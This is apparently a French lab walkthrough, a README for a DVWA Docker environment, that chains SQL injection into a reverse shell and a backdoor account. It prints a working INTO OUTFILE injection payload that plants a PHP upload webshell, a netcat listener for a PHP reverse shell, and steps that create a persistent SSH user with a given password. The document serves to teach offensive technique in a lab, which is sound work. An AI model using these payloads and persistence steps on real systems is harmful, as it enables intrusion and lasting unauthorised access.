- [Présentation](#présentation)
- [Mise en place de l'environnement](#mise-en-place-de-lenvironnement)
- [Exploitation](#exploitation)
  - [Mise en place du téléversement de fichier](#mise-en-place-du-téléversement-de-fichier)
  - [Obtention du reverse shell](#obtention-du-reverse-shell)
  - [Mise en oeuvre de la porte dérobée](#mise-en-oeuvre-de-la-porte-dérobée)


# Présentation

Dans ce scénario d'attaque, il sera question de l'exploitation d'une vulnérabilité d'injection SQL qui aboutira finalement à l'obtention d'un reverse shell puis, à la mise en place d'une porte dérobée. 

Nous nous sommes servis de l'image docker de l'application vulnérable DVWA pour faire la démonstration. Consulter le [Dockerfile](./Dockerfile) pour appréhender des configurations faites.

Dans notre cas, nous avons utilisé deux machines linux : une machine sur laquelle nous avons déployé l'environnement vulnérable et une machine d'attaque.

# Mise en place de l'environnement 

Pour mettre en place l'environnement vulnérable vous devrez avoir **Docker** installé sur votre machine et une connexion internet.

1. Cloner ce dépôt puis accéder au répertoire **from_sql_injection_to_reverse_shell**. Une fois que vous y êtes, créez l'image docker **sqlInjectionRevShell** en exécutant la commande ci-dessous 
    ```
    docker buildx build -t sql_injection_rev_shell .
    ```
    L'image ci-dessous illustre le résultat que vous devriez obtenir dans votre terminal lors de la construction de l'image.

    

2. Vérifier la présence de l'image que vous venez de constuire en exécutant la commande ci-dessous :
    ```
    docker image ls sql_injection_rev_shell
    ```
     Vous devrez obtenir un résultat similaire à celui, présenté dans l'image ci-dessous.

     

3. A présent nous allons démarrer un conteneur à partir de l'image construite précedement en exécutant la commande ci-dessous :
    ```
    docker run --rm -it -p 8086:80 -p 8089:22 sql_injection_rev_shell
    ```
    Ci-dessous une image qui illustre la sortie de cette commande :

    

    Cette commande utilisera les ports **8086** et **8089** de votre machine pour les services web et ssh exposés respectivement par le conteneur. Vous avez bien-sûr la possibilité de personnaliser ces ports selon les configurations et la disponibilité de ces ports sur votre machine.

4. Accéder à l'interface de l'application à partir de la machine d'attaque en saissant **IP_ADDRESS:8086** dans un navigateur, puis, saisissez les identifiants ci-dessous afin de vous connecter :
    ```
    Username: admin
    Password: password
    ```
    Une fois connecté, défilez vers le bas puis cliquez sur le bouton **Create / Reset Database** illustré par l'image ci-dessous :
    
    
    
    Une fois fait, patientez jusqu'à ce que la page de connexion se réaffiche puis reconnectez-vous. 

5. Assurez-vous que le niveau de sécurité de DVWA est sur **low** en cliquant sur le bouton **DVWA Security** comme l'illustre l'image ci-dessous : 

    


# Exploitation

## Mise en place du téléversement de fichier

1. Dans la colonne des types de vulnérabilités à gauche de l'interface de l'application choisissez **SQL Injection**
2. Ouvrez le fichier [exploit_file](./exploit_file.txt), copiez son contenu, collez-le dans le champ **User ID** puis, soumettez en cliquant sur le bouton **submit**
     ```
     ' UNION SELECT 1, '<?php if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_FILES["file"])) { move_uploaded_file($_FILES["file"]["tmp_name"], __DIR__ . "/" . $_FILES["file"]["name"]); echo "Fichier téléchargé avec succès."; } ?><form method="post" enctype="multipart/form-data"><input type="file" name="file"><button type="submit">Télécharger</button></form>' INTO OUTFILE '/var/www/html/dvwa/cmd.php' #
     ```

     Cette requête crée un fichier nommé **cmd.php** qui permet de téléverser des fichiers sans aucune vérification dans le répertoire courant.
3. Chargez la page web correspondant au fichier **cmd.php** en saisissant **IP_ADDRESS:8086/dvwa/cmd.php** comme l'illustre l'image ci-dessous :

    

4. Ouvrez le fichier [php_reverse_shell.php](./php_reverse_shell.php), défilez complètement vers le bas jusqu'à la ligne numéro 117 et personnalisez les configurations selon l'adresse IP de votre machine d'attaque et le port qui vous convient. 

    

4. Téléverser les fichiers **[exec_commands.py](./exec_commands.py)** et **[php_reverse_shell.php](./php_reverse_shell.php)** successivement. Le fichier [exec_commands.py](./exec_commands.py) contient le script python qui va nous permettre de créer une porte dérobée sur le système.

## Obtention du reverse shell
1. Ouvrez un terminal sur la machine d'attaque et exécutez la commande ci-dessous en tenant compte du port que vous avez spécifié dans le fichier [php_reverse_shell.php](./php_reverse_shell.php) :
    ```
    nc -lvnp 8080
    ```

    

2. Dans votre navigateur, accédez à la page **IP_ADDRESS:8086/dvwa/php_reverse_shell.php**. La page devrait rester en cours d'exécution et vous obtiendrez le résultat ci-dessous dans le terminal ouvert précédement:

    

3. Vous pouvez exécuter les commandes ci-dessous et explorer le système puis passez à l'étape suivante qui est la création de la porte dérobée:

   ```
   ls
   pwd
   ```
   

## Mise en oeuvre de la porte dérobée
1. Toujours dans le même répertoire exécuter le fichier [exec_commands.py](./exec_commands.py) :
   ```
   python2.7 exec_commands.py
   ```
   
2. Ce script crée un compte d'utilisateur avec un mot de passe, et un répertoire home par défaut sur le système. Ci-dessous les identifiants
    ```
    user: remote_user
    password : r€m0t€p@55W0RD
    ```
3.  Ouvrez un autre terminal et connectez-vous par ssh au serveur web vulnérable en utilisant les identifiants ci-dessus :
    ```
    ssh remote_user@192.168.56.1 -p 8089
    ```
    


